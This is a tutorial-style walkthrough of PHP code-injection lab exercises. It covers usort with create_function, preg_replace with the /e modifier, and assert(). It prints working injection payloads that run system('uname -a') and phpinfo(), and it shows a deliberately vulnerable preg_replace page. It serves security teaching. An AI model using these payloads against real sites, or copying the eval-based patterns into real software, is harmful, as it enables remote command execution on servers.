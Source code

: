 When ordering information, developers can use two methods:

order by in a SQL request;
usort in PHP code.
The function usort is often used with the function create_function to dynamically generate the "sorting" function, based on user-controlled information. If the web application lacks potent filtering and validation, this can lead to code execution.

By injecting a single quote, we can get an idea of what is going on:

Parse error: syntax error, unexpected '',$b->id'' (T_CONSTANT_ENCAPSED_STRING) in /var/www/index.php(29) : 
runtime-created function on line 1

```
Warning: usort() expects parameter 2 to be a valid callback, no array or string given in /var/www/index.php
 on line 29
```
The source code of the function looks like the following:

```php
ZEND_FUNCTION(create_function)
{
  [...]
  eval_code = (char *) emalloc(eval_code_length);
  sprintf(eval_code, "function " LAMBDA_TEMP_FUNCNAME "(%s){%s}", Z_STRVAL_PP(z_function_args), Z_STRVAL_PP(z_function_code));
 
  eval_name = zend_make_compiled_string_description("runtime-created function" TSRMLS_CC);
  retval = zend_eval_string(eval_code, NULL, eval_name TSRMLS_CC);
  [...]
```

We can see that the code that will be evaluated is put inside curly brackets {...}, and we will need this information to correctly finish the syntax, after our injection.

As opposed to the previous code injection, here, you are not injecting inside single or double quotes. We know that we need to close the statement with } and comment out the rest of the code using // or # (with encoding). We can try poking around with:

```?order=id;}//```: we get an error message (Parse error: syntax error, unexpected ';'). We are probably missing one or more brackets.
```?order=id);}//```: we get a **warning**. That seems about right.
```?order=id));}//```: we get an error message (Parse error: syntax error, unexpected ')' i). We probably have too many closing brackets.
Since we now know how to finish the code correctly (a warning does not stop the execution flow), we can inject arbitrary code and gain code execution using ```?order=id);}system('uname%20-a');//```, as an example.

This challenge is based on a vulnerability in PHPMyAdmin: CVE-2008-4096

---

### PREG_REPLACE

```php
<?php
    if (!isset($_GET["new"])) {
        header("Location: /?new=user&pattern=/lamer/&base=Hello%20lamer");
        die();
    }
    require "header.php";
?>

<div class="row">
    <div class="col-lg-12">
        <h1>Code Execution 03</h1>
    <h1>
        <?php
        echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
        ?>
    </h1>
</div>
```

`echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);`

preg_replate perform a regular expression search and replace.

### Description
```php
preg_replace( string|array $pattern , string|array $replacement , string|array $subject [, int $limit = -1 [, int $count = null ]] ) : string|array|null 
```
Search *subject* for matches to *pattern* and replaces them with *replacement*.

This feature hsa been DEPRECATED in PHP 5.5.0, and REMOVED as of PHP 7.0.0.

Another very dangerous modifier exists in PHP: PCRE_REPLACE_EVAL (/e).

This modifier will cause the function `preg_replace` to evaluate the new value as PHP code, before performing the substitution.

PCRE_REPLACE_EVAL has been deprecated as of PHP 5.5.0
Here, you will need to change the pattern, by adding the /e modifier. Once you have added this modifier, you should get a notice:

Notice: Use of undefined constant hacker - assumed 'hacker' in /var/www/codeexec/example3.php(3) : regexp code on line 1
The function preg_replace tries to evaluate the value hacker as a constant, but as it is not defined, you get this error message.

You can easily replace hacker with a call to the function phpinfo() to get a visible result.

Once you can see the result of the phpinfo function, you can use the function system to run any command.

---

### assert()

This example is based on the function `assert`.

When used incorrectly, `assert` will evaluate the value received. This behaviour can be used to gain code execution.

By injecting a single quote or double quote (depending on the way the string was declared), we can see an error message indicating that PHP tried to evaluate the code:

```php
Parse error: syntax error, unexpected T_ENCAPSED_AND_WHITESPACE in /var/www/codeexec/example4.php(4) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: 'hacker'' in /var/www/codeexec/example4.php on line 4
```
Once we have broke the syntax, we need to try to reconstruct it correctly. We can try the following: `hacker'.'`. We can now see that the error message has disappeared.

Now that we know how to finish the syntax to avoid errors, we can just inject our payload to run the function `phpinfo(): hacker'.phpinfo().'` and we get the configuration of the PHP engine in the page.

Finally, we can use system to score.

This trick will no longer work with most PHP 7 and all PHP 8 applications. 

`assert()` will no longer evaluate string arguments, instead they will be treated like any other argument. `assert($a == $b)` should be used instead of `assert('$a == $b')`. The `assert.quiet_eval php.ini` directive and the `ASSERT_QUIET_EVAL` constant have also been removed, as they would no longer have any effect.

Other payload example:

`phpinfo():teste'.system('uname -a').'`